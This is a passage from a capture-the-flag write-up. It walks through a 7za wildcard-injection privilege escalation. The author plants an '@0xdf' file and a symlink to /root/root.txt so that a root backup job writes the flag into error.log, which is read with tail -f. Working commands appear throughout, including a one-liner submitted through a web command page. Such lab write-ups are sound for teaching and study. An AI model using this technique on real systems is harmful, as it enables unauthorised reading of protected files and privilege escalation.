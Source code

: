   1. Start with `7za a /backup/$filename.zip -t7z -snl -p$pass -- *`.
  2. The wildcard expands: `7za a /backup/$filename.zip -t7z -snl -p$pass -- @0xdf 0xdf`.
  3. `7za` sees `@0xdf` as a listfile, and gets the content of `0xdf`, which is the root flag. That makes this command equivalent to: `7za a /backup/$filename.zip -t7z -snl -p$pass -- [root flag] 0xdf`.
  4. `7za` tries to add files `0xdf` and `[root flag]` to the archive. But there is no file named `[root flag]`. So it writes an error log which includes the contents of `root.txt`.

From my shell as ldapuser, I’ll run `tail -f error.log`, and the flag will
print out before the log is cleared just after.

### Exploit It

I’ve got two shells, one as apache that can write to `/var/www/html/uploads`,
and one as ldapuser that can watch `error.log`

First, I’ll start `tail -f error.log`:

    
    
    [ldapuser@ctf backup]$ tail -f error.log 
    
    

It will just hang waiting for new lines.

Next, I’ll use the apache shell to write the two files:

    
    
    bash-4.2$ pwd
    /var/www/html/uploads
    bash-4.2$ touch @0xdf; ln -sf /root/root.txt 0xdf 
    bash-4.2$ ls -l
    total 0
    lrwxrwxrwx. 1 apache apache 14 Feb 11 17:24 0xdf -> /root/root.txt
    -rw-r--r--. 1 apache apache  0 Feb 11 17:24 @0xdf
    

Alternatively, if I didn’t have a full shell, I could just submit the
following to the cmd webpage:

    
    
    cd /var/www/html/uploads; touch '@0xdf'; ln -sf /root/root.txt 0xdf; ls -la; date
    

That will create the two files I need, and then show them and the date to show
how long until the next minute.

When the minute rolls, back in the ldapuser shell, I get root.txt:

    
    
    [ldapuser@ctf backup]$ tail -f error.log
    
    WARNING: No more files
    fd6d2e53...
    
    tail: error.log: file truncated
    

## Beyond Root
